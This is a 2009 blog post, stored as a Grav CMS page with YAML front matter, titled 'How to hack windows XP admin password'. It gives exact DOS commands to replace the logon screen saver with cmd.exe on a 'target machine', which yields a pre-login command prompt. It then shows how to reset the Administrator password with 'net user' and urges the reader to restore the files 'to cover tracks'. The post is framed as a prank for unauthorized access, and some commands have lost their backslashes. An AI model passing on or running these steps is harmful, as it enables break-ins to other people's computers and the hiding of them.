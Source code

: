 ```yaml
---
# http://learn.getgrav.org/content/headers
title: How to hack windows XP admin password
slug: how-to-hack-windows-xp-admin-password
# menu: How to hack windows XP admin password
date: 07-06-2009
published: true
publish_date: 07-06-2009
# unpublish_date: 07-06-2009
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - hack
        - tech
        - windows
        - XP
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [hack,tech,windows,XP]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


If you log into a limited account on your target machine and open up a dos prompt  
then enter this set of commands Exactly:

cd \*drops to root  
cdwindowssystem32 \*directs to the system32 dir  
mkdir temphack \*creates the folder temphack  
copy logon.scr temphacklogon.scr \*backsup logon.scr  
copy cmd.exe temphackcmd.exe \*backsup cmd.exe  
del logon.scr \*deletes original logon.scr  
rename cmd.exe logon.scr \*renames cmd.exe to logon.scr  
exit \*quits dos

Now what you have just done is told the computer to backup the command program  
and the screen saver file, then edits the settings so when the machine boots the  
screen saver you will get an unprotected dos prompt with out logging into XP.

Once this happens if you enter this command minus the quotes

“net user  password”

If the Administrator Account is called Frank and you want the password blah enter this

“net user Frank blah”

and this changes the password on franks machine to blah and your in.

Have fun

p.s: dont forget to copy the contents of temphack back into the system32 dir to cover tracks

Go to our new site- shankee.com
